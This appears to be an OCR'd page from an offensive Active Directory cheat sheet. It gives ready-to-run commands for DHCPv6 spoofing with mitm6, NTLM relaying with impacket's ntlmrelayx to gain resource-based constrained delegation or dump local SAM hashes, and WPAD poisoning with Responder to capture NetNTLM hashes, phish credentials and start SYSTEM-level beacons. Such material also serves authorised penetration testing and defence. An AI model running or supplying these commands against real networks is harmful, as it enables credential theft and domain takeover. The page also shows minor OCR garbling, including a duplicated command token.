 #### _Initial local admin access via DHCPv6 spoofing and DNS poisoning:_
This attack leverages DHCPv6 spoofing to provide a booting or newly plugged in computer on the network a fake IP config that points to the attacker system\. Furthermore, DNS poisosing is used to trick the client in requesting every domain name resolution in which the attacker server jumps in and uses that request in a relay attack\.   
>IPv6 must be enabled and not used within the local network, for RBCD the CA Role must be installed on the target DC, the MachineAccountQuota must not be 0, and smb signing must be disabled on the target computer\. It is recommended to run this attack during a period of the day \(e\.g\. morning\) where the target system\(s\) most likely start\-up and thereby request for a DHCPv6 address\. However, keep it short \(max\. 5 min\) this tool can DoS the network\. 
- 1\. Check which systems have SMB signing disabled and create a list \([CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\): `crackmapexec smb <target ip range> --gen-relay-list targets.txt`
- 2\. Start the relay server:
	- LDAPS + RBCD: no creds required, new computer account is automatically created \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 ntlmrelayx.py -6 -wh <not existing host (e.g. notexist)> -smb2support -tf targets.txt -t ldaps://<FQDN DC> --delegate-access (--no-da) (--no-acl) (--no-validate-privs)`
	- LDAP + RBCD: credentials required, new computer account must be created manually:
		- 1\. Create new machine account based on the already owned domain user/computer account \(impacket\): `python3 addcomputer.py -dc-ip <DC IP> -method SAMR -computer-pass <new password> -computer-name <new computer account name> <FQDN>/<owned account name> (-hashes <NTLM hash>)`
		- 2\. Run ntlmrelayx \(impacket\): `python ntlmrelayx.py python3 ntlmrelayx.py -6 -wh <not existing host (e.g. notexist)> -smb2support -tf targets.txt -t ldap://<FQDN DC> --escalate-user <name of created computer account>\$ --delegate-access \(--no-da) (--no-acl) (--no-validate-privs)`
	- Dump local SAM via admin account relay \(impacket\): `python3 ntlmrelayx.py -6 -wh <not existing host (e.g. testhost)> -smb2support -tf targets.txt` 
- 3\. Start DHCPv6 spoofer \(use "\-hw" parameter to whitelist target computers\) \([mitm6](https://github.com/fox-it/mitm6/)\): `mitm6 -i <interface to listen on> -d <domain> (-hw <FQDN of target computer account>) --ignore-nofqdn`
- 4\. Use the created or elevated computer account to impersonate any user on the target system via S4U2Proxy or leverage the dumped hashes 

#### _WPAD/Proxy Poisoning:_
Browsers may have the system configuration enabled that allows for "automatic proxy detection"\. This forces the system to request a WPAD\.dat file that contains the proxy settings\. If no WPAD\.dat file is served within the network, this can be exploited by a MitM attack\. 
>the Chrome browser has/had this feature enabled by default\. 
- Capture NetNTLM hashes: start Responder and as soon a victim opens the browser, the hash will be captured \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface> -w -F`
- Prompt for login creds: Start Responder and as soon the victim actively uses the search bar in the browser, the user will be prompt for its credentials \(Responder\): `python Responder.py -I <interface> -P -b`
- Dump domain information \(users, groups, etc\.\): Run ntlmrelayx and then start Responder \(same as "Capture NetNTLM hashes"\)\. As soon a victim opens the browser, the authentication will be relayed to LDAP and queries the DC \(this included email addresses\) \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 ntlmrelayx.py -t ldaps://<FQDN DC> -smb2support`
- Start remote SYSTEM level beacon: check the ‘Get remote system level access via SMB relay attack’ method below and use the WPAD spoofig option for Responder\. This will start a SYSTEM level beacon when a user with \-admin level privs\- is using Chrome for example\. 
